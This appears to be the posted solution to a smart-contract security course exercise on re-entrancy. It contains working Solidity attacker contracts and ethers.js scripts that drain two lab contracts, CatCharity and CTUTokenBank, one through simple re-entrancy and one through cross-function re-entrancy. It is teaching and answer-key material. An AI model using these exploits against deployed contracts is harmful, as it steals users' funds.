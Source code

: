 # Smart Contracts Exercise 05: Re-Entrancy -- Solution

The solved exercise 5 can be found in this repository.

## Task 1: Cat Charity Hijinks

1. The attacker sends a small donation to the `CatCharity` contract to record their donation.
2. The attacker immediately calls the `claimRefund` function, triggering the re-entrancy vulnerability.
3. While the `claimRefund` function is executing, the attacker's contract falls back into the `claimRefund` function multiple times, draining the `CatCharity` contract's Ether balance.
4. This attack continues until the charity's balance is completely drained, and the funds are transferred to the attacker.

```solidity
contract CatAttacker {
    CatCharity public catCharity;

    constructor(address _catCharityAddress) {
        catCharity = CatCharity(_catCharityAddress);
    }

    /**
     * @notice Initiates the re-entrancy attack.
     * @dev We donate a small amount so that we (the Attacker contract)
     *      have a 'donation' recorded, then immediately claim the refund,
     *      re-entering until the charity's entire balance is drained.
     */
    function attack() external payable {
        // Step 1: Donate a tiny bit from this contract
        catCharity.donate{value: msg.value}();

        // Step 2: Start the refund loop
        catCharity.claimRefund();

        // Step 3: Send the money back to player
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    // Fallback triggered whenever this contract receives Ether
    receive() external payable {
        // If there's still ETH left in the CatCharity, re-claim
        if (address(catCharity).balance > 0) {
            catCharity.claimRefund();
        }
    }
}
```

JavaScript code to start the attack:

```javascript
// 1) The player deploys the Attacker contract
catAttacker = await (await ethers.getContractFactory("CatAttacker", deployer))
       .deploy(catCharity.target)

// 2) The player calls `attack()` with a small donation to set up re-entrancy
//    We'll donate 0.5 ETH
await catAttacker.connect(player).attack({ value: 5n * 10n ** 17n });
// By the end of this transaction, the attacker contract's fallback
// will keep calling `claimRefund()` in a loop until the charity is drained.
```

## Task 2: CTU Token Bank

In this task, the objective is to exploit a cross-function re-entrancy vulnerability in the `CTUTokenBank` contract. Here's how the exploit works:

1. The attacker deposits Ether into the `CTUTokenBank`, which increases their balance in the contract.
2. The attacker then calls the `withdrawEther` function, which is protected by a re-entrancy lock. However, while the lock is active, the attacker exploits a function that allows them to buy CTU Tokens (`buyTokens`) using the previous balance.
3. The attacker repeats this process, buying more tokens and withdrawing Ether until they have drained the bank of its Ether balance.
4. Finally, the attacker withdraws all remaining funds and transfers the stolen Ether to themselves.

```solidity
/**
* @title CTUTokenBankAttacker
* @notice Demonstrates a cross-function reentrancy exploit on CTUTokenBank.
*         Even though 'withdrawEther' is guarded by a reentrancy lock, 'buyTokens'
*         is wide open. The attacker calls 'withdrawEther', and during the
*         fallback--while the lock is active--calls 'buyTokens' using the *old*
*         balance that hasn't yet been subtracted.
*/
contract CTUTokenBankAttacker {
    ICTUTokenBank public ctuBank;
    ICTUToken public ctuToken;
    address public owner;
    bool private alreadyCalled;

    constructor(address _ctuBank, address _ctuToken) {
        ctuBank = ICTUTokenBank(_ctuBank);
        ctuToken = ICTUToken(_ctuToken);
        owner = msg.sender;
        alreadyCalled = false;
    }

    function attack() external payable {
        require(msg.sender == owner, "Not owner");
        
        // 1) Deposit Ether into the bank
        ctuBank.depositEther{value: msg.value}();

        // 2) Start a withdrawal, which will send Ether back to this contract
        ctuBank.withdrawEther();

        // 3) Sell the CTU Tokens to the bank
        ctuToken.approve(address(ctuBank), ctuToken.balanceOf(address(this)));
        ctuBank.sellTokens(ctuToken.balanceOf(address(this)));

        // 4) Withdraw the Ether again
        ctuBank.withdrawEther();

        // 5) Repeat the attack one more time
        alreadyCalled = false;
        ctuBank.depositEther{value: 5 ether}();
        ctuBank.withdrawEther();
        ctuToken.approve(address(ctuBank), 5 * 10 ** 18);
        ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
        ctuBank.withdrawEther();

        // 6) Transfer the stolen funds to the player
        payable(owner).transfer(address(this).balance);
    }

    receive () external payable {
        if (!alreadyCalled) {
            alreadyCalled = true;
            ctuBank.buyTokens();
        }
    }
}
```

JavaScript code to start the attack:

```javascript
// Deploy the attack contract
const attackerContractFactory = 
  await ethers.getContractFactory("CTUTokenBankAttacker", player);
const attackerContract = 
  await attackerContractFactory.deploy(bank.target, token.target)
// Execute the attack with 5 Ethers
await attackerContract.attack({ value: 5n * 10n ** 18n });
```
